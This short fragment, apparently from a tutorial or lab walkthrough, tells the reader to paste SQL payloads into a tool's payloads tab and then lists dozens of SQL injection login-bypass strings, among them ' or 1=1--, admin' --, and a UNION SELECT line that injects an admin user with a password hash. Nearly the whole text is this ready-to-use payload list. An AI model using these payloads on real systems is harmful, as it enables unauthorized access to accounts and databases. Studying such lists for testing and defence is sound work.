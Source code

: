 On the payloads tab, we copy and paste the sql payloads that we are going to use.

```sql
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
' or 1=1 --
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
```